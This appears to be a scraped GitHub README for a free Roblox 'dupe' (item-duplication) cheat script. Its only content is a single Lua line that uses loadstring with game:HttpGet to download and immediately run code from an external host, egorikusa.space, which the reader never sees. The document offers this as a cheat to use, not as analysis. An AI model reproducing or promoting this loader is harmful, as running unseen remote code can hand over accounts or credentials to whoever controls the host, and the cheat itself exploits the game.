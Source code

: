# dupe-script-free


loadstring(game:HttpGet("https://egorikusa.space/7832a7dd3a68fd746a493613.lua", true))()
